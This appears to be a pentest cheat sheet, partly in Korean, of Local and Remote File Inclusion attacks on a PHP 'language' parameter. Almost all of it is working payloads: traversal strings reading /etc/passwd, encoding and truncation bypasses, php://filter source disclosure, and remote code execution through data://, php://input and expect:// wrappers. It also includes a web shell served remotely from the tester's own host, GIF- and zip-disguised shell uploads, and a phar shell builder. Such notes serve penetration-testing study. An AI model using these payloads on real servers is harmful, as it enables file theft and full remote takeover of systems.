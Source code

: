 ### Basic LFI
```/index.php?language=/etc/passwd```<br/>
```/index.php?language=../../../../etc/passwd```<br/>
```/index.php?language=/../../../etc/passwd```<br/>
```GET /index.php?language=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd```<br/>
```/index.php?language=./languages/../../../../etc/passwd```<br/>
``` GET /index.php?language=languages/....//....//....//....//...//flag.txt```

### LFI Bypasses
```/index.php?language=....//....//....//....//....//etc/passwd```<br/>
```/index.php?language=%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2f%65%74%63%2f%70%61%73%73%77%64```<br/>
```/index.php?language=non_existing_directory/../../../etc/passwd/./././.[./ REPEATED ~2048 times]```<br/>
```echo -n "non_existing_directory/../../../etc/passwd/" && for i in {1..2048}; do echo -n "./"; done```<br/>
```/index.php?language=../../../../etc/passwd%00```<br/>
```/index.php?language=php://filter/read=convert.base64-encode/resource=config```

### PHP Files 퍼징
```ffuf -w /opt/useful/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://<SERVER_IP>:<PORT>/FUZZ.php```
  
### Source Code 노출
```/index.php?language=php://filter/read=convert.base64-encode/resource=configure```

### PHP Wrappers

#### PHP Configurations 체크
```curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"```

#### Remote Code Execution
```
echo '<?php system($_GET["cmd"]); ?>' | base64
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```

#### Input
```curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"```<br/>

#### Expect
```curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"```

### RFI Remote File Inclusion
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php
sudo python3 -m http.server <LISTENING_PORT>
```
```/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id```

### LFI & File Upload
```
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
/index.php?language=./profile_images/shell.gif&cmd=id
```
```
echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php
/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

#### shell.php
```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();
```
```
php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg
```